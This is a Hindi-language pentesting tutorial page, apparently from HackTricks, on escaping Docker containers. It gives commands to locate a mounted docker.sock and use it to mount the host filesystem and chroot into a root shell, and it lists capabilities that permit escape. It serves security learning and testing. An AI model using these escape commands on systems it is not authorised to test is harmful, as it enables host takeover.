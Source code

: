 <details><summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>


# कंटेनर क्या है

संक्षेप में, यह एक **अलग** **प्रक्रिया** है जो **cgroups** (प्रक्रिया क्या उपयोग कर सकती है, जैसे CPU और RAM) और **namespaces** (प्रक्रिया क्या देख सकती है, जैसे डायरेक्टरीज या अन्य प्रक्रियाएं) के माध्यम से:
```bash
docker run -dt --rm denial sleep 1234 #Run a large sleep inside a Debian container
ps -ef | grep 1234 #Get info about the sleep process
ls -l /proc/<PID>/ns #Get the Group and the namespaces (some may be uniq to the hosts and some may be shred with it)
```
# माउंटेड डॉकर सॉकेट

यदि आपको किसी तरह पता चलता है कि **डॉकर सॉकेट माउंटेड** है डॉकर कंटेनर के अंदर, तो आप उससे बाहर निकल पाएंगे।\
यह आमतौर पर उन डॉकर कंटेनरों में होता है जिन्हें किसी कारण से डॉकर डेमॉन से जुड़ने की आवश्यकता होती है क्रियाएं करने के लिए।
```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```
इस मामले में आप डॉकर डेमन से संवाद करने के लिए सामान्य डॉकर कमांड्स का उपयोग कर सकते हैं:
```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
{% hint style="info" %}
यदि **docker socket अप्रत्याशित स्थान पर है**, तो आप इससे संवाद कर सकते हैं **`docker`** कमांड का उपयोग करके पैरामीटर **`-H unix:///path/to/docker.sock`** के साथ।
{% endhint %}

# कंटेनर क्षमताएँ

आपको कंटेनर की क्षमताओं की जाँच करनी चाहिए, यदि इसमें निम्नलिखित में से कोई भी है, तो आप इससे बच सकते हैं: **`CAP_SYS_ADMIN`**_,_ **`CAP_SYS_PTRACE`**, **`CAP_SYS_MODULE`**, **`DAC_READ_SEARCH`**, **`DAC_OVERRIDE`**

आप वर्तमान कंटेनर क्षमताओं की जाँच इस प्रकार कर सकते हैं:
```bash
capsh --print
```
निम्नलिखित पृष्ठ पर आप **लिनक्स क्षमताओं के बारे में और अधिक जान सकते हैं** और उनका दुरुपयोग कैसे करें:
